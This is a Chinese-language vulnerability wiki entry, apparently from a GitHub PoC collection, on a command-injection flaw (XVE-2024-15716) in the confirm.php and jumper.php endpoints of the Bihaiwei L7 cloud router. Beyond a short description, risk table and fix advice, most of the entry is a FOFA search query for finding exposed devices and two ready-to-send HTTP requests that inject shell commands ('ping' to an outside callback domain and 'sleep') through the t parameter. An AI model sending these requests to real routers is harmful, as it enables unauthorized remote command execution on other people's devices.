



# 碧海威L7云路由无线运营版 confirm.phpjumper.php 命令注入漏洞(XVE-2024-15716)

# 漏洞描述

碧海威L7 confirm.php、jumper.php接口处存在RCE漏洞，恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。

影响范围

碧海威科技-L7

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="碧海威科技-L7云路由"

POC/EXP1：

GET /notice/confirm.php?t=;ping%204151.eyes.sh HTTP/1.1
Host: 127.0.0.1:1443
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

POC/EXP2：

GET /notice/jumper.php?t=;sleep%209 HTTP/1.1
Host: 127.0.0.1:1443
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
